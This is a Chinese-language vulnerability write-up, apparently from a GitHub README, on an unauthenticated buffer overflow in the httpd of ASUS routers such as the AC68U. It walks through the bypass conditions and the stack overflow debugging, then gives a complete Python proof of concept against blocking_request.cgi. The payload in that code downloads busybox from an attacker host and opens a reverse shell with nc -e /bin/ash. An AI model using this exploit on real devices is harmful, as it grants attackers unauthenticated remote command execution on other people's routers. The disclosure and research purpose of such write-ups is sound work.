 # 漏洞类型
未授权远程任意命令执行 

# 漏洞描述
在web服务对应二进制文件httpd中，攻击者可在未登陆验证的情况下，通过控制timestap参数进行缓冲区溢出触发漏洞达到远程任意命令执行的效果

# 影响范围
AC68U FirmwareVersion < 3.0.0.4.385.20633 
</br>
RT-AC5300 FirmwareVersion
</br>
. . . . . .
</br>
此漏洞影响多个路由器型号，具体型号暂未统计，官方2020年8-9月份修复的RCE漏洞（如下图）似乎就是这个
</br>
![image](https://user-images.githubusercontent.com/45091804/146535975-97051c7f-a65e-465a-8ed6-bc15ae5f6e6c.png)

# 漏洞触发流程
**本次数据基于固件版本AC68U 3.0.0.4.384.45713**
</br>
CName、mac、interval、timestap参数内容均为可控
</br>
### 流程1. 构造timestap、mac参数满足条件通过判断条件
 ①系统时间+3600-atol(timestap参数)<20 （timestap参数:通过一次空包返回内容来计算时间戳（注意需要根据设备系统设置时区计算）
 ![image](https://user-images.githubusercontent.com/45091804/146538461-c4dcb76e-d911-42c3-8c2d-ba7e1309f06f.png)
 </br>
 ②sub_11840函数为nvram_get，初始MULTIFILTER_MAC值为空，str("",mac)，所以mac必须为空
  </br>
  
 ![image](https://user-images.githubusercontent.com/45091804/146538587-02d5ce10-1572-4c4b-b148-9dbfcf84840d.png)

### 流程2. 绕过atol函构造timestap参数
atol(1639469133aaaaaaa.....)返回内容为1639469133,所以只需要在计算好的时间戳后面填充即可，通过strcat函数触发漏洞
![image](https://user-images.githubusercontent.com/45091804/146538789-fe6e5a14-2b47-4c13-8bf5-a202dbe2f7ed.png)

# 漏洞利用
1. timestap参数第一次尝试填充4740 * a,查看栈中数据，还有40个字节需要填充，也就是时间戳 + 4880* a + p32(addr)
![image](https://user-images.githubusercontent.com/45091804/146540066-b3f23900-0969-4edd-9deb-8dc8632abae9.png)

2. 调试中发现会提前崩溃，逐步跟踪，发现崩溃点位于json_object_put函数，此函数参数会从栈上取数据（原数据值为0），而栈被覆盖了后取的数据导致提前崩溃
![image](https://user-images.githubusercontent.com/45091804/146541130-4c897ae3-6172-48d9-a902-0534d2f83480.png)

3. libjson-c.so.2.0.2查看json_object_put函数原型，a1就是栈上取的参数，也就是只有当满足条件a1=0 或 *(a1+12)-- != 1 才能保持正常返回。由于是strcat函数导致溢出，栈中数据出现00会截断。注意下图左边汇编代码，LDR是取内容，--后比较完后会通过STR指令将内容写回原地址，所以在覆盖返回地址前，理论上构造参数：时间戳 + 4840* a +p32(addr) +32*a +p32(addrToSystem) addr必须满足条件：可读、可写、无00
![image](https://user-images.githubusercontent.com/45091804/146541761-919669df-f73b-4917-8484-256c3f8ca10c.png)
4. 寻找合适地址
- 查看区段信息，未发现所需地址
- 查看lib库，开启了PIE，无法利用 （碰撞libc地址，因为概率太低不进行尝试了）
![image](https://user-images.githubusercontent.com/45091804/146541939-f0c53a5c-232e-4d2a-ae04-8dfb25d81d58.png)
5. 然而json_object_put函数内部有个函数指针调用，而a1的值是可控的，也就是不用覆盖到返回地址也可以劫持PC
![image](https://user-images.githubusercontent.com/45091804/146554377-df982dfb-d21a-4a3b-a0a6-f9ac650e5244.png)

6. 观察bss段数据 发现CName、mac、interval、timestap内容都存在bss段，且bss段可读可写。
构造结构如下图，且运行到json_object_put函数内，准备跳转前，发现R10的内容保存的是CName参数内容。
<sup> 


  
  
     #cmd：需要执行的命令
     #timeStapStr：计算好的时间戳
     #addr：interval参数内容首地址，需要根据cmd命令的长度进行调整
    'CName': cmd，
    'mac': '',
    'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),
    'timestap': timeStapStr +'a'*4740+p32(addr) 



</sup>

![image](https://user-images.githubusercontent.com/45091804/146554630-170a7eb3-5f7b-437b-8e44-6ad19c19f2cb.png)

# 漏洞演示
  [![Watch the video](https://raw.github.com/GabLeRoux/WebMole/master/ressources/WebMole_Youtube_Video.png)](https://youtu.be/9rpNKSVQtFM)
  
# POC 
POC需要根据不同版本调整
</br>
以下是争对3.0.0.4.384.45713固件版本的POC
<sup> 


  
    
    #coding=utf-8
    from pwn import *
    import re
    import time
    import requests
    import urlparse
    import urllib3
    urllib3.disable_warnings()
    import sys

    def rematch(strTmp):
        tm_year = strTmp[0][2]
        tm_month = strTmp[0][1]
        tm_day = strTmp[0][0]
        tm_hour = strTmp[0][3]
        tm_min = strTmp[0][4]
        tm_sec = strTmp[0][5]
        if tm_month == 'Jan':
            tm_month = '01'
        if tm_month == 'Feb':
            tm_month = '02'
        if tm_month == 'Mar':
            tm_month = '03'
        if tm_month == 'Apr ':
            tm_month = '04'
        if tm_month == 'May':
            tm_month = '05'
        if tm_month == 'Jun':
            tm_month = '06'
        if tm_month == 'Jul':
            tm_month = '07'
        if tm_month == 'Aug':
            tm_month = '08'
        if tm_month == 'Sept':
            tm_month = '09'
        if tm_month == 'Oct':
            tm_month = '10'
        if tm_month == 'Nov':
            tm_month = '11'
        if tm_month == 'Dec':
            tm_month = '12'
        tm_hour = int(tm_hour) + 8
        time_tmp = '{}-{}-{} {}:{}:{}'.format(tm_year, tm_month, tm_day, tm_hour, tm_min, tm_sec)
        print(time_tmp)
        ts = time.strptime(time_tmp, "%Y-%m-%d %H:%M:%S")
        timeStamp= int(time.mktime(ts))
        return timeStamp


    def getTime(url):
        scheme =  urlparse.urlparse(url).scheme
        hostname = urlparse.urlparse(url).hostname
        header={
            'Host': hostname,
            'Cache-Control': 'max-age=0',
            'Upgrade-Insecure-Requests': '1',
            'Origin': scheme+'://'+hostname,
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Referer': scheme+'://'+hostname,
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-CN,zh;q=0.9',
            'Connection':'close'
        }
        data1 ={
            'CName': '',
            'mac': '',
            'interval': '',
            'timestap': '',
        }
        url = url+'/blocking_request.cgi'
        ret = requests.post(url = url ,
                      headers = header,
                      data = data1,
                      verify=False)
        format_time =''
        for key, value in (ret.headers).items():
            if 'Date' in key:
                format_time = value
        tmp = re.findall(r', (.*?) (.*?) (.*?) (.*?):(.*?):(.*?) GMT',format_time)
        timeStap = rematch(tmp) + 3600
        timeStapStr = str(timeStap)
        print(timeStapStr)
        data2 ={
            'CName': 'cd /tmp/home/root;wget http://192.168.2.177:8080/busybox-armv6l;chmod 777 *;./busybox-armv6l nc 192.168.2.177:1234 -e /bin/ash',
            'mac': '',
            'interval': 'a'*12+p32(1)+'a'*16+p32(0x0000EFA8),   
            'timestap': timeStapStr +'a'*4740+p32(0x0006FE35),   #p32(addr) 此addr为interval参数内容首地址

        }
        ret = requests.post(url = url ,
                      headers = header,
                      data = data2,
                      verify=False,)
        print('End')


    if __name__ == '__main__':
        url = sys.argv[1]
        getTime(url)



</sup>
